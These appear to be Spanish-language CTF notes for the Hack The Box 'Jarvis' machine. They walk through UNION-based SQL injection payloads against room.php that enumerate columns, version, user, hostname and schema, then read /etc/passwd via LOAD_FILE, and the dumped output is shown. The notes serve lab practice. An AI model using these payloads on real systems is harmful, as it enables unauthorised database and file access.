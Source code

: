 ```
/room.php?cod=6 UNION SELECT 'a','a','a','a','a','a','a'
/room.php?cod=6 UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL
jarvis.htb/room.php?cod=6 UNION SELECT 1,2,3,4,5,6,7
```
* show results
usamos -1 para que nos muestre los numeros en otro lado
```
jarvis.htb/room.php?cod=-1 UNION SELECT 1,2,3,4,5,6,7
```
nos muestra 2,3,4,5

* probamos ver la version en alguno de los campos imprimibles
```
jarvis.htb/room.php?cod=-1 UNION SELECT 1,@@verion,3,4,5,6,7
```

* seguimos enumerando

* user, hostname , db  

```
http://jarvis.htb/room.php?cod=-1%20UNION%20SELECT%20NULL,@@version,user(),@@hostname,5,6,7

user = DBadmin@localhost
hostname = jarvis
database() = HOTEL
```

* schema

```
jarvis.htb/room.php?cod=-1 UNION SELECT 1,(select SCHEMA_NAME from Information_Schema.SCHEMATA LIMIT3,1),3,4,5,6,7
```

* lfi

```
http://jarvis.htb/room.php?cod=-1%20UNION%20SELECT%20NULL,@@version,LOAD_FILE(%22/etc/passwd%22),4,5,NULL,NULL

daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
messagebus:x:105:110::/var/run/dbus:/bin/false
pepper:x:1000:1000:,,,:/home/pepper:/bin/bash
mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:107:65534::/run/sshd:/usr/sbin/nologin

```